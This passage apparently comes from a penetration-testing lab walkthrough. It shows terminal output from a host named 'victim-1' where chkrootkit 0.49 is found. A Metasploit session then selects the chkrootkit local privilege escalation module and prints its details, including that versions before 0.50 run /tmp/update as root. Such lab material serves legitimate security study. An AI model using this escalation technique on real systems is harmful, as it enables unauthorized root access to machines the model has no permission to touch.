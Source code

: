 ```
        -n                skip NFS mounted dirs
jackie@victim-1:~$ chkrootkit -V
chkrootkit -V
chkrootkit version 0.49
```

```
meterpreter > 
Background session 2? [y/N]  
msf5 auxiliary(scanner/ssh/ssh_login) > search chkrootkit

Matching Modules
================

   #  Name                           Disclosure Date  Rank    Check  Description
   -  ----                           ---------------  ----    -----  -----------
   0  exploit/unix/local/chkrootkit  2014-06-04       manual  Yes    Chkrootkit Local Privilege Escalation


msf5 auxiliary(scanner/ssh/ssh_login) > use exploit/unix/local/chkrootkit
msf5 exploit(unix/local/chkrootkit) > info

       Name: Chkrootkit Local Privilege Escalation
     Module: exploit/unix/local/chkrootkit
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Manual
  Disclosed: 2014-06-04

Provided by:
  Thomas Stangner
  Julien "jvoisin" Voisin

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  Yes

Basic options:
  Name        Current Setting       Required  Description
  ----        ---------------       --------  -----------
  CHKROOTKIT  /usr/sbin/chkrootkit  yes       Path to chkrootkit
  SESSION                           yes       The session to run this module on.

Payload information:

Description:
  Chkrootkit before 0.50 will run any executable file named 
  /tmp/update as root, allowing a trivial privilege escalation. 
  WfsDelay is set to 24h, since this is how often a chkrootkit scan is 
  scheduled by default.
```
